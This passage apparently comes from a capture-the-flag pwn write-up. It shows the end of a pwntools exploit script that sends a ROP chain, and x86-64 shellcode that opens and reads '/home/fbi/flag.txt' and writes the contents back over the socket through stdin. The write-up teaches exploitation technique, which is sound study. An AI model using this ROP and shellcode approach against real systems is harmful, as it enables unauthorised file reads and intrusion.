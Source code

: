 ```py

    # read() doesnt need a newline 
    p.send(rop2)
    
    # We should be recieving some data over stdin, which uses the same socket as stdout for comms with the server. So
    # pretty much no difference between the 2.
    buf = p.recvall()

    # Clean output a lil 
    printable = ""
    for b in buf:
        for c in string.printable:
            if b == ord(c):
                printable += chr(b)

    print(printable)


if __name__ == "__main__":
    main()
```

Something I can suggest to fellow pwn-players is making use of pwntools; it `asm` function is extremely powerful, and automatic rop-gadget finding is extremely good, especially if you just CBA.

Some amongst you may have noticed something strange, specifically inside some of my shellcode:

```asm
    ; openat(0, "/home/fbi/flag.txt", O_RDONLY, 0);
    mov rax, 0x101
    mov rsi, rdi
    xor rdi, rdi
    xor rdx, rdx
    xor r10, r10
    syscall
    
    ; read(flag_fd, rsp, 0x50)
    mov rdi, rax
    mov rax, 0
    mov rsi, rsp
    mov rdx, 0x50
    syscall
    
    ; write(0, rsp, 0x50)
    mov rax, 1
    mov rdi, 0
    syscall
```

Specifically the last 2/3 lines. How on earth does that work? We know writing to stdin is possible, of course you can write into the stdin of another terminal session and ruin someones day, but how are we able to recieve it the same way we would recieve stdout from the server?
